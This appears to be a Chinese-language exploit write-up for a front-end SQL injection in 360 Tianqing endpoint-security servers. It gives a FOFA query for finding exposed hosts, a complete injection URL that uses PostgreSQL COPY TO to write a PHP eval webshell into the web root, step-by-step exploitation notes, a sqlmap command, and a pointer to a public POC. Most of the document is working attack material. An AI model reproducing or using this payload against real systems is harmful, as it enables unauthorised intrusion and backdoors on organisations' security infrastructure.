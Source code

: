 # 天擎-前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
> title="360新天擎"

## 漏洞复现

```
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```

使用命令

```
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```

![](天擎-前台SQL注入.assets/1627363117008518.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360 TianQing ccid SQL injectable

![](天擎-前台SQL注入.assets/1627363117446607.jpg)